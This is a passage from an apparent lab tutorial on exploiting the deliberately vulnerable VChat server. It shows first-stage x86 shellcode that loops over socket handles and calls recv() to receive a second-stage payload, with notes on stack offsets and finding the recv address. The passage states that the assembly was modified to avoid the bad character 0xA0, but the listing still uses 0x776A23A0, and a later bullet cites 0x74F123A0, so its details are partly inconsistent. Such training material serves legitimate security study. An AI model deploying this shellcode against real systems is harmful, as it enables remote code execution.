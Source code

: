 			<img src="Images/I50.png" width=600>

2. Now we can create the first stage shellcode that we will inject into the VChat server, the source assembly is contained in [shellcode.asm](./SourceCode/shellcode.asm) and is discussed with more detail in the [KSTET_Multi](https://github.com/DaintyJet/VChat_KSTET_Multi) exploit. In this case the address of `recv(...)` (`0x776A23A0`) contained a bad character `0xA0`, so the assembly was modified to handle this.

	```
	sub esp,0x02            ; Move ESP pointer above our initial buffer to avoid
							; overwriting our shellcode
	xor edi,edi             ; Zero out EDI (Anything XORed with itself is 0)
	socket_loop:            ; Brute Force Loop Label
	xor ebx,ebx             ; Zero out EBX (Anything XORed with itself is 0)
	push ebx                ; Push 'flags' parameter = 0 
	add bh,0x4              ; Make EBX = 0x00000400 which is  1024 bytes
	push ebx                ; Push `len` parameter, this is 1024 bytes
	mov ebx,esp             ; Move the current pointer of ESP into EBX
	add ebx,0x64            ; Point EBX the original ESP to make it the pointer to
							; where our stage-2 payload will be received (And fallen into)
	push ebx                ; Push `*buf` parameter = Pointer to ESP+0x64
	inc edi                 ; Make EDI = EDI + 1
	push edi                ; Push socket handle `s` parameter = EDI, For each loop we increment EDI
	mov eax,0x776A23A0      ; We need to make EAX = 0x776A23A0 but we can't inject if there are null bytes in this.
	call eax                ; Call recv()
	test eax,eax            ; Check if our recv() call was successfully made
	jnz socket_loop         ; If recv() failed, jump back to the socket loop where
							; EDI will be increased to check the next socket handle
	```	
	* For the initial instruction, you only need to subtract from the stack pointer by 1-2 bytes since our current `ESP` value will point to the first instruction/ Later we still want to preform the large addition (in this case a value of `0x64`) so that out second stage will be written ahead of our first stage shellcode.
	* Keep in mind you may need to adjust the address used in the `mov eax,0x74F123A0` instruction: Below is an example of (later) using arwin to find the address of the recv function 

